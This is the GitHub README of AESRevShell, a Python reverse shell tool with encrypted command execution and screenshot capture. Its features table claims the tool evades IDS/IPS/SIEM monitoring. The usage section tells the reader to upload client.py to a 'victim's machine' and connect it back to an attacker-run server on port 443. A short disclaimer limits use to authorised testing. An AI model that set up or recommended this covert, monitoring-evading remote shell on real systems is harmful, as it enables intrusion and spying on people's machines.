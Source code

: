 # AESRevShell

## 🔐 Overview
AESRevShell is a **secure reverse shell tool** that utilizes:
- **AES-GCM** for authenticated encryption
- **ECDH** (Elliptic Curve Diffie-Hellman) for secure key exchange
- **HKDF** for key derivation

Ideal for **pentesting** and **security research** in monitored environments.

## ✨ Key Features
| Feature | Description |
|---------|-------------|
| **MITM Protection** | ECDH prevents interception |
| **Forward Secrecy** | Ephemeral session keys |
| **Command Execution** | Remote command execution with encrypted responses |
| **Encrypted Screenshots** | Captures and encrypts target screen |
| **Traffic Obfuscation** | Bypasses IDS/IPS/SIEM |
| **Cross-Platform** | Works on Linux/Windows/macOS |
| **No Key Sharing** | Automatic secure exchange |

```mermaid
sequenceDiagram
   participant Server
   participant Client
   Server->>Client: Public Key (ECDH)
   Client->>Server: Public Key (ECDH)
   Note right of Server: Derives shared secret
   Note left of Client: Derives shared secret
   Server->>Client: Encrypted (AES-GCM) Command
   Client->>Server: Encrypted Response
```

## **Demos**
![image](https://github.com/user-attachments/assets/6abbe459-e4bb-44e6-b773-d7a5b02266b0)
![image](https://github.com/user-attachments/assets/45f14aaf-d9d1-486f-b364-540a69095bbb)

## **Installation**
1. Install dependencies:
   ```bash
   sudo apt update && sudo apt install -y python3-pip
   python3 -m pip install --upgrade cryptography
   ```

2. Clone the repository:
   ```bash
   git clone https://github.com/OusCyb3rH4ck/AESRevShell
   cd AESRevShell
   ```

3. Make the scripts executable:
   ```bash
   chmod +x client.py server.py
   ```

## 🖥️ **Usage**

- Upload the '**client.py**' into victim's machine

#### **Server (attacker):**
Start the server (attacker) with the desired IP and port:
```bash
./server.py -i 0.0.0.0 -p 443
```

#### **Client (victim):**
Connect the client (victim) to the server:
```bash
./client.py -s SERVER_IP -p SERVER_PORT
```

### Special commands

- `screenshot` - Captures target screen
- `exit` - Terminates session
- `CTRL + L` - Clears console

## ⚠️ **Disclaimer**
This tool is intended for **educational purposes** and **authorized penetration testing** only. Do not use it for malicious purposes. The authors are not responsible for any misuse of this tool.

## 🤝 **Contributing**
Contributions are welcome! If you have any suggestions, improvements, or bug fixes, feel free to open an issue or submit a pull request.

## **Author**
- [OusCyb3rH4ck](https://github.com/OusCyb3rH4ck)
